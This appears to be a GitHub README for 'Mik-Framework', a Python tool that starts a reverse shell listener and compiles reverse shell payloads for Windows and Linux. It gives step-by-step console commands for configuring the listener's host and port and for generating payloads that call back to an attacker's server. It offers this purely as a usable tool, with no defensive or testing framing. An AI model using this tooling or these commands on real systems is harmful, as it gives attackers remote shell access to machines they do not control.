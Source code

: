 # Mik-Framework

Mik-Framework is a Python tool for starting a reverse shell server and compiling payloads for Windows and Linux.

## Usage

To start the reverse shell server, run the following command:

```
~/Mik-Framework $ python3 mikconsole.py
```

This will open the Mik-Framework console, where you can interact with the available modules. To start the reverse shell server, follow these steps:

1. Select the revshell module:
   ```
   mik> use revshell
   ```

3.  Configure the host and port:
```
mik-revshell> set host 0.0.0.0
mik-revshell> set port 4545
```

4. Run the server:
   ```
   mik-revshell> run
   ```

## Payload Compilation

### Windows

To compile a payload for Windows, use the following command:

```
python3 nous.py -p windows_revshell --host 127.0.0.1 --port 4545 -o payload.c --mingw
```

### Linux

To compile a payload for Linux, use the following command:

```
python3 nous.py -p linux_revshell --host 127.0.0.1 --port 4545 -o payload.c
```

Make sure to replace 127.0.0.1 with the IP address of your server and 4545 with the port you want to use.

## Creating New Modules

You can create new modules to extend the functionality of Mik-Framework. Simply follow the existing module structure and integrate it into the framework.
